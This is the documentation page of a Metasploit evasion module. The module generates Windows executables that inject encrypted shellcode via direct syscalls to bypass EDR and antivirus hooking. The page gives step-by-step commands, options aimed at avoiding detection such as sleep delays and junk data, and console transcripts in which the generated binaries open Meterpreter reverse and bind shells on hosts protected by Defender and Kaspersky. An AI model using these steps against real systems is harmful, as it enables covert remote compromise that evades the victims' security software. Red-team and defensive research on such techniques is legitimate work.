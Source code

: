 ## Description
This module lets you create a Windows executable that injects a specific payload/shellcode in memory bypassing EDR/AVs Windows API hooking technique via direct syscalls achieved by Mingw's inline assembly.
Mingw needs (x86_64) to be installed on the system and in the PATH environment variable.

The technique used is based on Sorting by System Call Address, by enumerating all Zw* stubs in the EAT of NTDLL.dll and then sorting them by address, it still works even if syscall indices were overwritten by AVs.
[For more details](https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams/)

## Verification Steps
steps using a meterpreter/reverse_tcp payload on a 64-bits target:

1. `use evasion/windows/syscall_inject`
1. `set LHOST <local IP>`
1. `set payload windows/x64/meterpreter/reverse_tcp`
1. `handler -p windows/x64/meterpreter/reverse_tcp -H <local IP> -P <local port>`
1. `run`
1. Make sure that "Automatic Sample Submission" is off in Windows Defender
1. Copy the generated executable file to a specified location (e.g. target PC)  
1. Run it
1. Verify that you got a session without being blocked by Antimalware

## Options

### CIPHER
Encryption algorithm used to encrypt the payload. Available ones (CHACHA, RC4)

### FILENAME
Filename for the generated evasive file file. The default is random.

### JUNK
Adding random data such as names, emails and GUIDs to the final executable

### SLEEP
Specify how much the program sleeps in milliseconds prior to execute the shellcode's thread (NtCreateThread).
NOTE: the longer the better chance to avoid being detected.

## Advanced

### OptLevel
Optimization level passed to the compiler (Mingw)

## Scenarios
### Windows 10 (x64) version 20H2 with Defender
```
msf6 > use evasion/windows/syscall_inject 
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 evasion(windows/syscall_inject) > set SLEEP 10000
SLEEP => 10000
msf6 evasion(windows/syscall_inject) > set LHOST 192.168.1.104
LHOST => 192.168.1.104
msf6 evasion(windows/syscall_inject) > run

[+] pYlCSOAeW.exe stored at /Users/user/.msf4/local/pYlCSOAeW.exe
msf6 evasion(windows/syscall_inject) > cp  /Users/user/.msf4/local/pYlCSOAeW.exe ~
[*] exec: cp  /Users/user/.msf4/local/pYlCSOAeW.exe ~

msf6 evasion(windows/syscall_inject) > handler -p windows/x64/meterpreter/reverse_tcp -H 192.168.1.104 -P 4444
[*] Payload handler running as background job 1.

[*] Started reverse TCP handler on 192.168.1.104:4444 
msf6 evasion(windows/syscall_inject) > [*] Sending stage (200262 bytes) to 192.168.1.103
[*] Meterpreter session 3 opened (192.168.1.104:4444 -> 192.168.1.103:53007) at 2021-08-01 17:08:43 +0300

msf6 evasion(windows/syscall_inject) > sessions -i 3 
[*] Starting interaction with 3...

meterpreter > sysinfo 
Computer        : DESKTOP-822593D
OS              : Windows 10 (10.0 Build 19042).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.1.103 - Meterpreter session 3 closed.  Reason: User exit
```
### Windows server 2012 (x64) with Kaspersky 10.2.6.3733
```
msf6 > use evasion/windows/syscall_inject
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 evasion(windows/syscall_inject) > set payload windows/x64/meterpreter_bind_tcp 
payload => windows/x64/meterpreter_bind_tcp
msf6 evasion(windows/syscall_inject) > set RHOST 192.168.225.76
RHOST => 192.168.225.76
msf6 evasion(windows/syscall_inject) > set LPORT 10156
LPORT => 10156
msf6 evasion(windows/syscall_inject) > set cipher rc4
cipher => rc4
msf6 evasion(windows/syscall_inject) > run

[+] ShP.exe stored at /Users/medicus/.msf4/local/ShP.exe
msf6 evasion(windows/syscall_inject) > cp /Users/medicus/.msf4/local/ShP.exe ~
[*] exec: cp /Users/medicus/.msf4/local/ShP.exe ~

msf6 evasion(windows/syscall_inject) > handler -p windows/x64/meterpreter_bind_tcp -H 192.168.225.76 -P 10156
[*] Payload handler running as background job 0.

[*] Started bind TCP handler against 192.168.225.76:10156
msf6 evasion(windows/syscall_inject) > [*] Meterpreter session 1 opened (0.0.0.0:0 -> 192.168.225.76:10156) at 2021-08-01 17:32:05 +0300

msf6 evasion(windows/syscall_inject) > sessions -i 1 
[*] Starting interaction with 1...

meterpreter > sysinfo 
Computer        : LABCE28
OS              : Windows 2012 (6.2 Build 9200).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 386
Meterpreter     : x64/windows
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.225.76 - Meterpreter session 1 closed.  Reason: User exit
```

